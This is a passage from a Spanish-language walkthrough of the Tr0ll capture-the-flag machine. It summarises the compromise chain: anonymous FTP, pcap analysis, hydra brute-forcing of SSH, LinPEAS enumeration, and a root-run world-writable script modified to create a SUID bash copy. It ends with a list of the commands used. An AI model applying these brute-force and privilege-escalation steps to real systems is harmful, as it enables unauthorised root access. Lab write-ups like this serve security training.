- sin `-p`, en muchos casos `bash` se autolimita,
- con `-p`, mantiene el UID efectivo de root heredado del binario SUID.

Por eso este detalle es crucial.

---

## 36. Obtener el proof final

Ya como root hacemos:

```bash
cd /root
ls
cat proof.txt
```

Y obtenemos:

```text
Good job, you did it!

702a8c18d29c6f3ca0d99ef5712bfbdc
```

Objetivo completado.

---

## 37. Resumen técnico del camino de explotación

La cadena completa de compromiso fue esta:

1. Identificamos la víctima en la red NAT.
2. Descubrimos FTP anónimo, SSH y HTTP.
3. Entramos por FTP anónimo y descargamos un `.pcap`.
4. Analizamos el tráfico con Wireshark y vimos que existía `secret_stuff.txt`.
5. Recuperamos desde el contenido del stream la pista `sup3rs3cr3tdirlol`.
6. Navegamos al directorio web correspondiente y descargamos el binario `roflmao`.
7. Extraímos con `strings` la pista `0x0856BF`.
8. Probamos esa cadena como directorio web y encontramos más contenido.
9. Enumeramos usuarios y reinterpretamos la “contraseña” troll.
10. Descubrimos las credenciales SSH reales: `overflow:Pass.txt`.
11. Accedimos por SSH.
12. Ejecutamos LinPEAS y detectamos un script escribible por todos: `/lib/log/cleaner.py`.
13. Confirmamos que el script, propiedad de root, se ejecutaba limpiando `/tmp`.
14. Lo modificamos para copiar `/bin/bash` y marcarlo con SUID en `/tmp`.
15. Esperamos a que root lo ejecutara.
16. Lanzamos `/tmp/bash -p` y obtuvimos root.
17. Leímos `/root/proof.txt`.

---

## 38. Conceptos importantes aprendidos en esta máquina

Esta máquina enseña varios conceptos fundamentales:

### 1. Reconocimiento de red en NAT
Entender cómo identificar la víctima dentro de una red virtual.

### 2. Valor ofensivo de FTP anónimo
Un FTP anónimo no solo permite bajar archivos “obvios”; puede dejarte material de inteligencia como capturas de red o documentos olvidados.

### 3. Wireshark como herramienta de pivoting informativo
No solo sirve para analizar protocolos; también puede darte rutas, archivos, nombres y pasos que otro usuario ya siguió.

### 4. robots.txt y directorios web ocultos
Aunque no sea un mecanismo de seguridad, `robots.txt` puede revelar rutas interesantes.

### 5. Pensamiento no lineal en máquinas troll
A veces la pista se usa literalmente, aunque parezca absurda.

### 6. Enumeración local con LinPEAS
Saber encontrar archivos escribibles y relacionarlos con procesos o scripts ejecutados por usuarios privilegiados.

### 7. Peligro de scripts root escribibles por todos
Es una de las malas configuraciones más clásicas y explotables.

### 8. SUID en `bash`
Entender qué hace el bit SUID y por qué `bash -p` conserva privilegios efectivos.

---

## 39. Conclusión final

**Tr0ll** es una máquina diseñada para obligarte a pensar más allá de la lógica convencional. El autor te lleva constantemente por un camino de humor y engaño, pero casi todas las pistas importantes están ahí, delante de ti, solo que envueltas en ruido troll.

El valor de esta máquina no está solo en el exploit final, sino en la forma de razonar:

- no ignorar archivos aparentemente absurdos,
- revisar PCAPs con atención,
- pensar en rutas no intuitivas,
- reinterpretar pistas engañosas,
- y hacer una enumeración local sólida una vez consigues acceso.

La escalada final mediante modificación de un script root escribible por todos y creación de una copia SUID de `bash` es un excelente ejemplo de cómo una mala configuración simple puede destruir por completo la seguridad del sistema.

---

## 40. Flags y evidencias finales

### Proof final

```text
Good job, you did it!

702a8c18d29c6f3ca0d99ef5712bfbdc
```

---

## 41. Referencia rápida de comandos usados

```bash
ip a
sudo nmap -n -sn 192.168.184.128/24
sudo nmap -p- --open -sCV -Pn -T5 -vvv -oN fullscan 192.168.184.130
ftp -a 192.168.184.130
get lol.pcap
file roflmao
strings roflmao
hydra -L users -P Pass.txt ssh://192.168.184.130
ssh overflow@192.168.184.130
python3 -m http.server 80
cd /tmp
wget http://192.168.184.128/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
ls -la /lib/log/cleaner.py
cat /lib/log/cleaner.py
./bash -p
cd /root
cat proof.txt
```

